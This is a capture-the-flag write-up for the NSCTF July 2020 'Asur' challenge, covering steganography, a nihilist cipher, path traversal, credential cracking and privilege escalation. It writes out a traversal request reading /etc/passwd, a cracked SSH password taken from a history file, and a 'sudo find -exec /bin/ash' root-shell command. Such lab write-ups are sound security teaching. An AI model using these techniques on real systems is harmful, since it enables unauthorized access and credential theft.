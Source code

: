 # Writeup for CTFFriday 2020 July W1 by Muzkkir



In this article, I’m going to explain solutions of NSCTF July Week 1, 2020 CTF challenge theame "Asur" Organized by Net-Square Solutions Pvt. Ltd. and created by Prachi Karad.

This CTF had Five different challenges in which major 4 domain was covered; Stenography, Cryptography, Privilege Escalation, and Web challenges. We have to start from Stenography and Cryptography exploitation to access the system and Privilege Escalation to read the flag file.

<kbd>![alt text](images/1.png)</kbd>


## First Flag

<kbd>![alt text](images/02.png)</kbd>

As the challenge was about the looking for the "MASK" on webpage. I visit source code page and found that.

<kbd>![alt text](images/03.png)</kbd>

<kbd>![alt text](images/04.png)</kbd>

Firstly, I have download all images and try to use Staghide tool to extract data.


<kbd>![alt text](images/2.png)</kbd>

I use Binwalk tool to extract data from the images. I got extracted files from the "mask.jpg"

<kbd>![alt text](images/3.png)</kbd>

```
binwalk -B mask.jpg 
binwalk --dd='.*' mask.jpg
```

<kbd>![alt text](images/4.png)</kbd>

Bingo !!! I got my 1st Flag !!!

<kbd>![alt text](images/05.png)</kbd>

```
NSCTF{Andhakar_Ek_5ach_Hai_Aur_Prakash_3k_Mithya}
```

<kbd>![alt text](images/9)</kbd>



## Second Flag

<kbd>![alt text](images/10.png)</kbd>

Now, I need to look for the "nihilist" image.

<kbd>![alt text](images/11.png)</kbd>

Using strings command I extraced words from image "nihilist.jpeg". I used -n query to extract word length more than 9
```
strings nihilist.jpeg -n 9
```
<kbd>![alt text](images/12.png)</kbd>

```
74 47 47 82 73 49 72 64 66 45 83 48 86 47 64 46 64 68 56 57 48 46 84 65 73 75 45 43 55 49 72 47 65
Ask nikhil to open the door
```
I have retrived the 2 important hints. In which first one might be encoding and the second would be the key to extract the flag.

<kbd>![alt text](images/13.png)</kbd>

I visit the "https://cryptii.com/" website to decode the ascii code. Look on the Library !! I found the encoding method.

<kbd>![alt text](images/14.png)</kbd>

> Now Time to Extract the Flag

<kbd>![alt text](images/15.png)</kbd>

```"flag{karunahikrurtahailagaavhipeedahai}"```





## Third Flag


<kbd>![alt text](images/20.png)</kbd>

As the HINT suggest So I started look for "dj" word.
However most of attemps are failed at first.

<kbd>![alt text](images/21.png)</kbd>

<kbd>![alt text](images/22.png)</kbd>

<kbd>![alt text](images/23.png)</kbd>

<kbd>![alt text](images/24.png)</kbd>

<kbd>![alt text](images/25.png)</kbd>

> I looked for every possibilities. :( but did not found anything usefull. Then I got the message !

<kbd>![alt text](images/26.png)</kbd>

I have started looking for "CWE 22" and it is a path traversal vulnerability.

<kbd>![alt text](images/27.png)</kbd>

```So, I went to "http://10.90.137.137/?dj=/etc/passwd"```

<kbd>![alt text](images/28.png)</kbd>

I visit the home folder of Asur and response was hidden.

<kbd>![alt text](images/29.png)</kbd>

But I found on the source page.

```NSCTF{Peeda_5e_Bada_Sh1kshak_Aur_koi_nahi_Hota}```

<kbd>![alt text](images/30.png)</kbd>



## Fourth Flag

<kbd>![alt text](images/41.png)</kbd>

<kbd>![alt text](images/40.png)</kbd>

I quickly visit the Asur's command history file.

<kbd>![alt text](images/42.png)</kbd>

<kbd>![alt text](images/43.png)</kbd>

```asur:b8be16afba8c314ad33d812f22a04991b90e2aaa```
As per my assumptions this must be the SSH login credentials but the password was hash format. For hash value to decode I use online platform named CrackStation where i got the real value of hash file.
```baconandcheese```

<kbd>![alt text](images/44.png)</kbd>

It's time for Login with SSH !! but what !! I face an error !

<kbd>![alt text](images/45.png)</kbd>

Now i visit the "passwd" file in which I tried all other user with same credentials.

<kbd>![alt text](images/47.png)</kbd>

listing the directory files for flag.

```
NSCTF{ATTR_TATTRA_SARVATRA}
```

<kbd>![alt text](images/48.png)</kbd>




## Fifth Flag

<kbd>![alt text](images/60.png)</kbd>

Task is about Priviledge Escalation so first I have to look for simple methods.

<kbd>![alt text](images/61.png)</kbd>

Interesting, I can only use find file command as a super user.
So, I research on web about the "find" command to got super user priviledge on web.

<kbd>![alt text](images/69.png)</kbd>

> & Finally found something useful on "https://www.andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/" Domain.

<kbd>![alt text](images/68.png)</kbd>

I have run some commands to see the possibilities. Below is the result.
```
localhost:/home/asur$ sudo find . -exec /bin/bash \;
find: /bin/bash: No such file or directory
find: /bin/bash: No such file or directory
find: /bin/bash: No such file or directory
localhost:/home/asur$ sudo find ../asur/.flag.txt  -exec /bin/bash \;
find: /bin/bash: No such file or directory
localhost:/home/asur$ sudo find ../asur/.flag.txt  -exec /bin/ash  \;
localhost:/home/asur# 
```
From that I sure that, This will work.

<kbd>![alt text](images/66.png)</kbd>

Gotcha !!!
```NSCTF{5amanya_Manushya_Ka_5imit_Gyan_Use_Apne_5e_Pare_Dekhne_Nahi_D3t4}```






## Conclusion

Overall, this CTF was unique for me because I learned about Priviledge Escalation, cryptography, and Stegniography.  Also, playing this was fun and I appreciate the efforts of the team.


#

**Thank you.**

**Husseni Muzkkir.**
